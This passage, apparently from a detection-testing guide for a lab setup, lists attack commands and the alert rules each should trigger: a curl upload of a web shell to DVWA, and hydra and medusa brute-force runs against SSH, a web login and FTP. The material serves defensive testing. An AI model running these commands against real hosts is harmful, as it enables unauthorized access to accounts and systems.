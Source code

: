 ```bash

curl -F "uploaded=@/tmp/shell.jpg" -F "Upload=Upload" \
  "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/upload/" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"
```

**Expected Detections**:
- Malicious file upload (rule 100005)
- PHP code in uploaded files
- Suspicious file extensions

---

## Scenario 2: Network-Based Attacks

### 2.1 Password Attacks

**Objective**: Test brute force and password attack detection
**MITRE Technique**: T1110 (Brute Force)

```bash
# SSH brute force attack
hydra -l ubuntu -P /usr/share/wordlists/rockyou.txt ssh://$LINUX_TARGET -t 4

# Create custom password list
cat > /tmp/passwords.txt << 'EOF'
password
123456
admin
root
ubuntu
test
guest
user
EOF

# Targeted SSH brute force
hydra -l ubuntu -P /tmp/passwords.txt ssh://$LINUX_TARGET -t 2 -w 3

# Web application brute force (DVWA)
hydra -l admin -P /tmp/passwords.txt \
  http-get-form://$LINUX_TARGET:8080/dvwa/login.php:username=^USER^&password=^PASS^:Login failed

# FTP brute force (if available)
hydra -l ftp -P /tmp/passwords.txt ftp://$LINUX_TARGET

# Using medusa for additional testing
medusa -h $LINUX_TARGET -u ubuntu -P /tmp/passwords.txt -M ssh -t 2
```

**Expected Detections**:
- Multiple failed authentication attempts (rule 5716)
- SSH brute force patterns (rule 5720)
- Brute force from single source (rule 100006)
